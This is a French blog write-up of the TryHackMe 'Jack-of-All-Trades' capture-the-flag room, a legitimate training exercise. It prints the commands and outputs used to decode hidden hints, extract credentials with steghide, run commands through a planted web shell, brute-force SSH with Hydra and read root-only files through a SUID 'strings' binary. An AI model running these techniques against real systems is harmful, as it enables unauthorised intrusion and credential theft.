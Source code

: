 ```yaml
---
title: "Write-up | Jack-Of-All-Trade"
date: 2020-07-06T22:58:18+02:00
draft: false
tags:
  - writeup
  - tryhackme
---
```


Cette room est sur [Try Hack Me](https://tryhackme.com). Elle est dans la catégorie "Easy".

Synopsis de la room : 
> Jack is a man of a great many talents. The zoo has employed him to capture the penguins due to his years of penguin-wrangling experience, but all is not as it seems... We must stop him! Can you see through his facade of a forgetful old toymaker and bring this lunatic down?

## Reconnaissance
D'abord, je scan les ports avec nmap :
`nmap -sV -sC <ip> -oN ports.txt`
```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-06 15:58 CEST
Nmap scan report for 10.10.35.82
Host is up (0.068s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Jack-of-all-trades!
|_ssh-hostkey: ERROR: Script execution failed (use -d to debug)
80/tcp open  ssh     OpenSSH 6.7p1 Debian 5 (protocol 2.0)
| ssh-hostkey: 
|   1024 13:b7:f0:a1:14:e2:d3:25:40:ff:4b:94:60:c5:00:3d (DSA)
|   2048 91:0c:d6:43:d9:40:c3:88:b1:be:35:0b:bc:b9:90:88 (RSA)
|   256 a3:fb:09:fb:50:80:71:8f:93:1f:8d:43:97:1e:dc:ab (ECDSA)
|_  256 65:21:e7:4e:7c:5a:e7:bc:c6:ff:68:ca:f1:cb:75:e3 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 52.67 seconds
```

On remarque que le serveur Apache est sur le port 22, et SSH sur le 80 !

Un fois sur la page du site, je regarde le code source, et je vois les commentaires suivants :
```html
<!--Note to self - If I ever get locked out I can get back in at /recovery.php! -->
<!--  UmVtZW1iZXIgdG8gd2lzaCBKb2hueSBHcmF2ZXMgd2VsbCB3aXRoIGhpcyBjcnlwdG8gam9iaHVudGluZyEgSGlzIGVuY29kaW5nIHN5c3RlbXMgYXJlIGFtYXppbmchIEFsc28gZ290dGEgcmVtZW1iZXIgeW91ciBwYXNzd29yZDogdT9XdEtTcmFxCg== -->
```
C'est du base64. Une fois décodé, il donne :
> Remember to wish Johny Graves well with his crypto jobhunting! His encoding systems are amazing! Also gotta remember your password: [edited]

Nous avons donc une nouvelle page, `/recovery.php`, ainsi qu'un password.

`/recovery.php` contient un formulaire de connexion. Dans le code source de la page, il y a la string suivante :
```html
<!-- GQ2TOMRXME3TEN3BGZTDOMRWGUZDANRXG42TMZJWG4ZDANRXG42TOMRSGA3TANRVG4ZDOMJXGI3DCNRXG43DMZJXHE3DMMRQGY3TMMRSGA3DONZVG4ZDEMBWGU3TENZQGYZDMOJXGI3DKNTDGIYDOOJWGI3TINZWGYYTEMBWMU3DKNZSGIYDONJXGY3TCNZRG4ZDMMJSGA3DENRRGIYDMNZXGU3TEMRQG42TMMRXME3TENRTGZSTONBXGIZDCMRQGU3DEMBXHA3DCNRSGZQTEMBXGU3DENTBGIYDOMZWGI3DKNZUG4ZDMNZXGM3DQNZZGIYDMYZWGI3DQMRQGZSTMNJXGIZGGMRQGY3DMMRSGA3TKNZSGY2TOMRSG43DMMRQGZSTEMBXGU3TMNRRGY3TGYJSGA3GMNZWGY3TEZJXHE3GGMTGGMZDINZWHE2GGNBUGMZDINQ=  -->
```
Ce n'est pas du base64. Avec un peu de tatonnage, je trouve : base32 -> hex -> ROT13.

> Remember that the credentials to the recovery login are hidden on the homepage! I know how forgetful you are, so here's a hint: bit.ly/2TvYQ2S

Le lien pointe vers la page Wikipédia du stégosaure.

On dirait qu'il va falloir faire de la stégano :)

Sur la homepage, il y a une photo d'un stégosaure. Je la télécharge et l'examine avec `steghide` :
```
$ steghide info stego.jpg 
"stego.jpg":
  format: jpeg
  capacité: 1,9 KB
```
Il y a donc bien des choses à l'intérieur !
J'extrais le contenu grâce au mot de passe trouvé précédemement :
```
$ steghide extract -sf stego.jpg
Entrez la passphrase: 
Écriture des données extraites dans "creds.txt".
```
et regarde le contenu du fichier creds.txt :
```
$ cat creds.txt
Hehe. Gotcha!

You're on the right path, but wrong image!
```
:'(

Je télécharge donc la seconde image, jackinthebox.jpg, et répète le processus. Cependant, la passphrase utilisée précédement n'est pas la bonne. Bizarre...
J'essaie quelques passwords un peu au hasard, mais rien ne semble fonctionner.

Je décide d'aller voir un peu ailleurs sur le site, et vais donc sur `/assets/`. Surprise, il y a 3 photos sur la homepage, j'avais oublié la bannière ! Bien évidement, elle contient du texte qui peut être extrait avec le pass vu précédement.
```
$ steghide extract -sf header.jpg 
Entrez la passphrase: 
Écriture des données extraites dans "cms.creds".
```
J'inspecte le contenu, il y a bien des creds !
```
$ cat cms.creds 
Here you go Jack. Good thing you thought ahead!

Username: [edited]
Password: [edited]
```
Une fois ces identifiants rentrés sur la page `/recovery.php`, j'accède à une nouvelle page, avec pour seul message :
```
GET me a 'cmd' and I'll run it for you Future-Jack. 
```
Rien de plus dans le code source. Le message est plutôt clair : il faut effectuer des requêtes GET sur la page avec des commandes en paramètre.
Je rentre donc en URL `http://10.10.35.82:22/[edited]?cmd=whoami` afin de tester. J'ai bien la réponse à la commande : `www-data`.

Du RCE ! :D

## Exploitation

Tout d'abord, j'essaie de voir si je peux regarder le contenu de `/home`:

`http://10.10.35.82:22/[edited]?cmd=ls%20/home`

J'y trouve un fichier : `jacks_password_list` ainsi que le dossier de l'user jack.
Je récupère le fichier en envoyant `cat /home/jacks_password_list` :

```
*hclqAzj+2GC+=0K eN@ 0HguX{,fgXPE;8yF sjRUb4*@pz<*ZITu [8V7o^gl(Gjt5[WB yTq0jI$d}Kae)vC4} 9;}#q*,A4wd{6r,y4krSo ow5APF>6r,y4krSo
```
Puisque ce fichier est sensé être une liste, j'imagine que chaque espace représente un retour à la ligne. Ca donnerait donc :
```
*hclqAzj+2GC+=0K
eN@
0HguX{,fgXPE;8yF
sjRUb4*@pz<*ZITu
[8V7o^gl(Gjt5[WB
yTq0jI$d}Kae)vC4}
9;}#q*,A4wd{6r,y4krSo
ow5APF>6r,y4krSo
```
Ce format ne me dit absolument rien.

Je me dis qu'un de ces mots de passe est celui du SSH de Jack. J'essaie donc de bruteforce le port avec Hydra et les passwords mis dans un .txt
```
$ hydra -l jack -P passlist.txt 10.10.35.82 ssh -s 80
...
[DATA] attacking ssh://10.10.35.82:80/
1 of 1 target completed, 0 valid passwords found
```
Rien ...
Petit coup d'oeil au code source de la page, et je remarque qu'il n'y a qu'une petite partie de la liste qui est affichée ! La liste de mots de passe est en réalité beaucoup plus longue.

J'édite donc ma liste et retente avec Hydra.
```
[DATA] attacking ssh://10.10.35.82:80/
[80][ssh] host: 10.10.35.82   login: jack   password: [edited]
1 of 1 target successfully completed, 1 valid password found
```
Cette fois c'est la bonne ! Me voilà connecté en SSH sur la machine.

Dans le folder de jack, il n'y a qu'une photo : `user.jpg`.

Je la récupère sur ma machine : `scp -P 80 jack@10.10.35.82:user.jpg` et l'ouvre : `eog user.jpg`.

Bingo, elle contient le premier flag !

## Élévation de privilèges

Le but maintenant est de passer root.
J'essaie de voir ce que je peux lancer en tant que superuser:
```
$ sudo -l
[sudo] password for jack: 
Sorry, user jack may not run sudo on jack-of-all-trades.
```
Tant pis pour sudo... Je regarde ensuite si des fichiers ont le bit SUID de réglé :
```
$ find / -perm /4000 2> /dev/null 
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/pt_chown
/usr/bin/chsh
/usr/bin/at
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/strings
/usr/bin/sudo
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/procmail
/usr/sbin/exim4
/bin/mount
/bin/umount
/bin/su
```
`/usr/bin/strings` ! Parfait ! Je vais pouvoir lire le flag :)

On sait que le flag root est à `/root/root.txt`. Il faut donc faire :
```
$ LFILE=/root/root.txt
$ /usr/bin/strings "$LFILE"
```
et voilà le résultat :
```
ToDo:
1.Get new penguin skin rug -- surely they won't miss one or two of those blasted creatures?
2.Make T-Rex model!
3.Meet up with Johny for a pint or two
4.Move the body from the garage, maybe my old buddy Bill from the force can help me hide her?
5.Remember to finish that contract for Lisa.
6.Delete this: [edited]
```

C'est dans la poche 8-)
